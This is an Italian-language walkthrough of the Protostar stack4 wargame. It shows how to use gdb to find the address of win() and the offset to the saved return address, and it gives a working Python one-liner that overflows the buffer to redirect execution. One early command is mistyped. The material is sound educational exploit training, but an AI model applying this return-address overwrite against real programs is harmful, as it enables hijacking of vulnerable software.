 # Protostar_stack 4 - Stack-based buffer overflow

## Obiettivo della sfida
Eseguire la funzione _win()_ a tempo di esecuzione, ciò modifica il flusso di esecuzione poichè provoca il salto del codice alla funzione _win()_

## Tentativo
Proviamo a mandere in buffer overflow la variabile _buffer_ con:
```bash
> python -c 'print "a" + 80' | /opt/protostar/stack4
#output
Segmentation fault
```
Il programma scrive le prime 64 "a" in _buffer_ e le restanti vengono scritte in locazioni contigue alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack.
### Riflessione
A differenza della sfida precedente qui non abbiamo una variabile esplicita da sovrascrivere. Abbiamo bisogno di una cella che se sovrascritta provoca l'alterazione del flusso di esecuzione.

### Indirizzo di ritorno
Essa è una cella di dimensioni pari all'architettura(4 byte per Protostar) e contiene l'indirizzo della prima istruzione da eseguire al termine della funzione descritta nello stack frame.

## Strategia di attacco
Sovrascrivere l'indirizzo di ritorno con quello della funzione _win()_ per farlo occorre scoprire l'indirizzo della cella di memoria che contiene l'indirizzo di ritorno e l'indirizzo della funzione _win()_

### Recuperare l'indirizzo di win()
Utilizziamo **gdb**
```bash
> gdb -q /opt/protstar/bin/stack4
(gdb) > p win
$1 = {void (void)} 0x80483f4 <win>
# 0x80483f4 indirizzo di win()
```

### Recuperare l'indirizzo di ritorno
Per ottenere l'indirizzo di ritorno di _main()_ è necessario ricostruire il **layout dello stack** di _stack4_ per farlo(senza il sorgente) bisogna disassemblare il main e possiamo farlo con la funzione **disassemble** di gdb quindi lanciamo
```bash
(gdb) > disassemble main
# Dump of assembler code
```
Analizziamo il dump e vediamo che i registri coinvolti sono:
- ESP: punta al top dello stack
- EBP: puntatore che consente di accedere alle variabili dell'interno frame

Inseriamo un **breakpoint** alla prima istruzione del main (abbiamo l'indirizzo perchè abbiamo il dump).
```bash
(gdb) > b *0x8048408
# breakpoint 1
# eseguiamo il programma
(gdb) > r
# monitoriamo l'evoluzione dello stack monitorando gli indirizzi di EBP e ESP ad ogni passo
(gdb) > p $ebp
$2 = (void *) 0xbffffdc8
(gdb) > p $esp
$3 = (void *) 0xbffffd4c
# 0xbffffd4c indirizzo di ritorno prima dell'esecuzione del main
# eseguiamo le istruzioni assembly passo dopo passo con
(gdb) > si
```

## Come sfruttare le vulnerabilità
Una volta seguita l'evoluzione dello stack possiamo capire quante "a" dobbiamo ripetere fino ad arrivare all'indirizzo di ritorno.  
Quindi dobbiamo dare in input un numero di "a" pari a  
`sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP)`.  
La dimensione del buffer è **64 byte**, la dimensione del padding è **8 byte** e la dimensione del vecchio EBP che è **4 byte**; quindi possiamo dire che servono **76 "a"** per arrivare all'indirizzo di ritorno.  
Arrivati alla cella dell'indirizzo di ritorno scriviamo l'indirizzo di _win()_ (al contrario perchè è Little Endian).

### Istruzioni da eseguire
```bash
> python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4
# sfida vinta
Segmentation fault
```

## Commenti sulla sfida
Il crash è causato dal fatto che dopo l'esecuzione di _win()_ viene letto il valore successivo dello stack rovinato di conseguenza il programma crasha ma non ci interessa perchè la sfida è vinta.
